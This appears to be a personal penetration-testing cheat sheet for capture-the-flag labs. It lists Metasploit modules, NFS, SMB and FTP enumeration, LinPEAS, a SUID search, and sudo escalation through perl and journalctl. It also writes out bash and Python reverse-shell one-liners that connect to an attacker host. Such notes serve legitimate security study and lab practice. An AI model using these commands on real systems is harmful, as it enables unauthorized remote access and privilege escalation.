 # Attempt to Elevate permissions after entry



## Download file to remote host

Host:
```
nc -l PORT < /path/to/file
```

Client:
```
nc IP PORT > file
```

## Open SSH through Metasploit

```
use auxiliary/scanner/ssh/ssh_login
```

## Upgrade shell to meterpreter

```
use post/multi/manage/shell_to_meterpreter
```

### Gather random exploits possibilities.

```
use post/multi/recon/local_exploit_suggester
```
Gives readout of possible vulnerabilities of connected host


### NFS (RPCBIND?)

Enumerate NFS shares.

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.223.98
```

# Linux Specific

```sudo -l```

```whoami```

### Bash based reverse shell

```
bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1'
```

### Python based reverse shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' &
```


### Upgrade Shell to TTY

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


### Run command as specific user
```
sudo -u USER command
```

### Start shell as specific user
```
sudo -u USER bash -i
```

## Search specific word

```grep -n "WORD" /path/to/file(s)```

-n lists line number

-r - recursively check all files matching path

-B # - Prints this many lines before

-A # - Prints this many lines after

## LinPEAS

https://github.com/carlospolop/PEASS-ng/releases

Only need linpeas.sh

```
scp /home/mike/linpeas.sh USER@IP:/home/USER
```
```
./linpeas.sh
```

## Search for SUID Bit files

SUID Bit - User executes the file with permissions of the file owner

```
find / -perm -u=s -type f 2>/dev/null
```


# FTP

Replicate entire FTP
```
wget -m ftp://anonymous:anonymous@IP
```


# Samba share

## Quick Enumeration

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse IP
```

Change port to match nmap results. (Usually 139 or 445)

## Deep Enumeration

```
enum4linux -a IP | tee enum4linux.log
```


## Inspect Samba Share

```
smbclient //ip/sambashare
```


## Recursively download the SMB share

```
smbget -R smb://ip/sambashare
```

# PERL elevation

```
sudo /usr/bin/perl -e 'exec "/bin/sh"'
```

# JournalCTL Less exploitation

```
/usr/bin/sudo /usr/bin/journalctl -n5 - service.service

```
creates `less` to create 

Follow up with
```
!/bin/bash
``` 
to get root
